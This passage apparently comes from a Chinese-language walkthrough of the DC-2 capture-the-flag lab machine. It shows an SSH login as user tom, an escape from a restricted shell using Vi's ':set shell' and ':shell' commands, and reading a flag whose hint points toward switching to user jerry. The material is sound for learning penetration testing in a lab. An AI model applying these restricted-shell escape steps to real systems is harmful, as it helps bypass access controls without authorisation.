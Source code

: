 使用tom账号发现可以登录ssh

```
┌──(root💀kali)-[/tmp]
└─# ssh -p 7744 tom@192.168.32.160                                                                                                                                                                                                     
tom@192.168.32.160's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ 

```

`/bin` 中不存在 cat 程序，而 tom 只能运行 `/bin` 目录中存在的五个程序。

![image-20220622111526530](../../.gitbook/assets/image-20220622111526530.png)

由于我们有一个受限的 shell，我们发现我们可以使用 Vi 编辑器。因此，我们使用 Vi 编辑器来逃避受限的 shell。

```
:set shell=/bin/bash
:shell
```

配置shell环境变量

```
tom@DC-2:~$ export PATH=/bin:/usr/bin:$PATH
tom@DC-2:~$ export SHELL=/bin/bash:$SHELL
```

查看flag3.txt

```
tom@DC-2:~$ ls
flag3.txt  test  usr
tom@DC-2:~$ cat flag3.txt 
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

按照提示，切换到jerry用户，**密码是jerry的密码**
